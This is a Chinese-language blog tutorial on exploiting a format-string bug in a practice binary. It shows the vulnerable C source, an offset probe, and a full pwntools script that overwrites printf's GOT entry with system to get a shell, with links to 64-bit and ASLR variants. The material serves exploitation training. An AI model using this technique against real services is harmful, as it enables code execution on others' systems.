 ```yaml
---
title: 利用 GOT Overwrite
subtitle:
date: 2023-08-28T20:14:36+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


GOT Overwrite 利用实战

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/got-overwrite-32.zip" content="got-overwrite-32.zip" title="Download got-overwrite-32.zip" download="got-overwrite-32.zip" card=true >}}

这可能是 GOT Overwrite 题中最简单的一个了。

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，
只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp：

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

{{< link href="/pwn_assets/got-overwrite-64.zip" content="got-overwrite-64.zip" title="Download got-overwrite-64.zip" download="got-overwrite-64.zip" card=true >}}

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

{{< link href="/pwn_assets/got-overwrite-aslr.zip" content="got-overwrite-aslr.zip" title="Download got-overwrite-aslr.zip" download="got-overwrite-aslr.zip" card=true >}}


